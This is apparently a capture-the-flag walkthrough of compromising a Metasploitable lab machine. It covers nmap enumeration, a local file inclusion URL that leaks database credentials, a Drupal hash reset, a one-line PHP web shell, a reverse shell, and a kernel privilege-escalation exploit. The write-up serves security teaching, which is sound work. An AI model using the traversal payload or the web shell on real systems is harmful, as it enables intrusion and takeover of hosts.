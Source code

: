 Once logged-in in our Kali box, kindly offered by rapid7, we need to study carefully our victim machine. To do so, we can unleash nmap's power

```
ec2-user@kali:~$ nmap -sT -sV -p 1-65535 10.0.101.252

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 08:36 UTC
Nmap scan report for 10.0.101.252
Host is up (0.00071s latency).
Not shown: 992 filtered ports
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp open  http    WEBrick httpd 1.3.1 (Ruby 2.3.5 (2017-09-14))
8181/tcp closed intermapper
Service Info: Hosts: 10.0.101.252, IP-10-0-101-252; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.60 seconds
```

Looks like we have a bunch of services here! Searching for some known vulns on ProFTPD 1.3.5 is inviting, but 
we want to investigate deeper on the port 80. 
What we have here is an Apache http server.Luckily directory listing is enabled, so we can analyze all the application available 
without bruteforcing folders and files. 

![Screen_Shot_2017-12-06_at_09.49.13](./img/img1.png)

Enumerating, enumerating, enumerating and we finally spot our "turning point" vulnerability:
on the WEBrick httpd running on port 3500 ,a Local File Inclusion affects the parameter "os" inside the "readme" page. 
While we have a phpmyadmin instance on port 80, it worth trying to include some other app pages, 
hoping to retrieve some credentials. Fortunately the payroll_app.php makes it possible.

http://10.0.28.14:3500/readme?os=../../../../../var/www/html/payroll_app.php

![Screen_Shot_2017-12-05_at_15.56.35](./img/img3.png))

We can now log-in with root:sploitme on phpmyadmin:

![Screen_Shot_2017-12-06_at_09.54.49](./img/img4.png)

In the table "users" from the drupal schema, we have the "metasploitable" user. 
Following the guide at https://www.drupal.org/node/1023428, we can generate a valid drupal hash and replace it with the old ones, 
obtaining access to the front-end.

![Screen_Shot_2017-12-06_at_10.20.23](./img/img5.png)

The PHP Filter module from drupal enable the evaluation ot the PHP code inside pages, so we can enable it and add a page with the following php code

```php
<?php passthru($_GET['cmd']); ?>
```

![Screen_Shot_2017-12-06_at_10.25.16](./img/img6.png)

Let's user the webshell to obtain a reverse shell, it should make our life easier.

![Screen_Shot_2017-12-06_at_10.25.45](./img/img7.png)

We can now start the post-exploitation phase on the victim machine, aiming to obtain root privileges.
The kernel version of the box is vulnerable to the CVE-2015-1328 and a related exploit is available on exploit-db 
(https://www.exploit-db.com/exploits/37292/).
We can download the source, compile it directly on the machine while we have gcc installed and execute it. 

BOOM! We are root

![Screen_Shot_2017-12-06_at_10.58.39](./img/img8.png)

As root we can tweak the ssh config file to allow remote root, moreover we can change the password obtaining a SSH session with root privileges.

Ladies and gentlemen, let the hunt begin!